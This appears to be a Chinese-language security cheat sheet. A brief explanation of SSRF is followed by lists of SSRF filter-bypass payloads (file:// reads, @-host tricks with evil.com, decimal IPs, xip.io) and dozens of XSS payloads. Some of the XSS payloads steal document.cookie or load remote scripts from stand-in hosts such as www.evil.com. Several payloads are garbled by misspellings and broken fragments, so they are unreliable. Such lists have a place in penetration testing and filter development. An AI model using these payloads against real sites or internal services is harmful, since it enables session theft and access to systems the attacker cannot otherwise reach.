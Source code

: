 ## SSRF&XSS
SRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）

SSRF 形成的原因大都是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。比如从指定URL地址获取网页文本内容，加载指定地址的图片，下载等等。

## 常用绕过 payload等
```

admin=1&url=file://www.ichunqiu.com/var/www/html/flag.php
file://user@evil.com:80@www.google.com//var/www/html/index.php%23
使用@：http://A.com@10.10.10.10 = 10.10.10.10
IP地址转换成十进制、八进制：127.0.0.1 = 2130706433
使用短地址：http://10.10.116.11 = http://t.cn/RwbLKDx
端口绕过：ip后面加一个端口
xip.io：10.0.0.1.xip.io = 10.0.0.1
        www.10.0.0.1.xip.io = 10.0.0.1
        mysite.10.0.0.1.xip.io = 10.0.0.1
        foo.bar.10.0.0.1.xip.io = 10.0.0.1
       
```
## XSS

## 常见payload

```html
- <script>alert(1);</script>
- <img src=0 onerror=alert(1)>
- "><script src=http://www.xxx.com/1.js></script>"
- "></iframe><script>alert(123)></script>
- <body onLoad="while(true) alert("XSS"),">
- "></tile><script>alert(1111)</script>
- </textarea>'"><script>alert(document.cookie)</script>
- '""><script language="JavaScript"> alert("X \nS \nS"),</- script>
- </script></script><<<<script><>>>><<<script>alert(123)</- script>
- <html><noalert><noscript>(123)</noscript><script>(123)</- script>
- <INPUTTYPE="IMAGE"SRC="javasctipt:alert("XSS");">
- '></select><script>alert(123)</script>
- '>'><script src='http://www.evil.com/XSS.js'></script>
- }</style><script>a=eval;b=alert;a(b(/XSS/.source));</- script>
- <SCRIPT>document.write("XSS");</SCRIPT>
- a="get";b="URL";c="javascript:";d="alert("XSS");";eval(a- +b+c+d);
- ='><script>alert("XSS")</script>
- <sctipt+src=">"+src="http://www.evil.com/XSS.js?68,- 69"></script>
- <body backgroud=jabascript:'"><script>alert- (navigator.userAgent)</sctipt>></body>
- ">XaDoS/><script>alert(document.cookie)</script><script - src="http://www.site.com/X
- Data:text/html;charset=utf-7;base64.Ij481.3RpdGod- [jxzY3JpcHQ+YWxlcnQoMIMzNy
- "<marquee><img src=k.png onerror=alert(/XSS/)/>
- "<marquee><img src=k onerror=alert(/XSS/)>
- '"><marquee><img src=k.png onerror=alert(/XSS/.source)/>
- </div><script>alert(123)</script>
- "><iframe src="javascript:alert(document.cookie)- '><iframe>
- <div style="backgroud:url("javascript:alert(I)')">
- <img src="java\nascript:alert(\"XSS\")">
- >"><img src="javascript:alert("XSS")">
- "style="background:url(javascript:alert(/XSS/))"
- >"><script>alert(/XSS/)</script>
- "></title><script>alert(I)</script>
```
反射XSS:欺骗用户点击，可能会被浏览器过滤

## 其他资料

- https://xianzhi.aliyun.com/forum/topic/83/
- http://kuza55.blogspot.hk/2008/02/csrf-ing-file-upload-fields.html